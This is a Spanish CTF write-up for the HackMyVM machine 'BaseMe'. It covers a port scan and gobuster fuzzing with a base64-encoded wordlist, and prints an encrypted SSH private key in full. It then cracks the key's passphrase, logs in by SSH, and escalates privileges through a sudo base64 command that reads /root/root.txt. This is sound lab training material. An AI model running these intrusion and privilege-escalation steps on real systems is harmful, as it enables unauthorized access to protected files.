 ```yaml
---
layout      : post
title       : "BaseMe - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/baseme-HackMyVM/previsualización.jpg
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


BaseMe es una máquina de nivel fácil de la plataforma HackMyVm en la que tocaremos mucho Base64 y crackeo de RSA.

# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 ca:09:80:f7:3a:da:5a:b6:19:d9:5c:41:47:43:d4:10 (RSA)
|   256 d0:75:48:48:b8:26:59:37:64:3b:25:7f:20:10:f8:70 (ECDSA)
|_  256 91:14:f7:93:0b:06:25:cb:e0:a5:30:e8:d3:d3:37:2b (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos dos puertos abiertos, el 22 (ssh) y el 80 (http).

#Explotación

Abro el navegador para ver que tenemos en el puerto 80.

Al abrirlo encuentro una cadena codificada en base64 y varias palabras que podríamos usar más tarde como diccionario para algún tipo de ataque que lo requiera.

![](/assets/images/HMV/baseme-HackMyVM/dicbase64.png)


Decodificamos la cadena:

```bash
❯ echo "QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK " | base64 -d
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```

Todo lo necesario ha de estar en base64 según dice la nota.

A continuación procedo a fuzzear para buscar posibles rutas en el servidor, pero antes de nada debemos codificar las palabras del diccionario que usaremos en base64.

Yo usaré un pequeño script para realizar esta tarea de forma automatizada y más rápido.


```bash
#!/bin/bash

for i in `cat common.txt` ; do echo $i | base64 >> base64enc.txt ; done
```

Codifico el diccionario common.txt de la ruta `/usr/share/wordlists/dirb/common.txt` y ahora ya sí podemos fuzzear usando el diccionario.

```bash
❯ gobuster -u http://192.168.0.27 -w base64enc.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.0.27/
[+] Threads      : 10
[+] Wordlist     : base64enc.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/05/02 01:50:32 Starting gobuster
=====================================================
/aWRfcnNhCg== (Status: 200)
/cm9ib3RzLnR4dAo= (Status: 200)
=====================================================
2022/05/02 01:50:34 Finished
=====================================================
```

Como podemos ver tenemos las siguientes rutas:

```bash
/aWRfcnNhCg== 
/cm9ib3RzLnR4dAo=
```

Accedo desde el navegador a la ruta `/aWRfcnNhCg==` y se me descarga un archivo, la otra ruta no nos dio nada que nos pudiera servir.

![](/assets/images/HMV/baseme-HackMyVM/rsaenc.png)

Decodifico la cadena y es una clave RSA.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```

Asignamos permisos 600 a la clave id_rsa

`chmod 600 id_rsa`

Intento usar la clave para loguearme por ssh pero me pide la contraseña, por lo tanto debo crackear la id_rsa para obtener la contraseña.

Para crackear la clave RSA puedo usar **ssh2john** pero usaré otra herramienta:

[https://github.com/d4t4s3c/RSAcrack](https://github.com/d4t4s3c/RSAcrack)

Usaré la herramienta RSAcrack creada por d4t4s3c.

Pero antes de nada debemos recordar que todo ha de estar codificado en base64 y que necesitamos un diccionario... Y me acordé de la lista de palabras que encontramos al comienzo del CTF.

Codifico la lista de palabras:

```bash
aWxvdmV5b3UK
eW91bG92ZXlvdQo=
c2hlbG92ZXN5b3UK
aGVsb3Zlc3lvdQo=
d2Vsb3ZleW91Cg==
dGhleWhhdGVzbWUK
```

Y procedo a crackear la clave:


![](/assets/images/HMV/baseme-HackMyVM/rsa.gif)


Ya tenemos la contraseña, ahora debemos loguearnos por ssh usando la misma.

Me logueo por ssh y ya podremos leer la flag user.txt

```bash
❯ ssh lucas@192.168.0.27 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux baseme 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep  2 20:13:28 2022 from 192.168.0.52
```

# Escalada de Privilegios

Ahora procedo a escalar privilegios para leer la bandera root.txt

Lanzando `sudo -l` puedo ver que puedo ejecutar el binario base64 como root sin contraseña.

Asique me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/base64/](https://gtfobins.github.io/gtfobins/base64/)


![](/assets/images/HMV/baseme-HackMyVM/base64gtfo.png)

Si ejecutamos el comando podemos leer cualquier archivo del sistema.


`sudo /usr/bin/base64 /root/root.txt | base64 --decode` 

Y listo, ya tenemos la flag root.




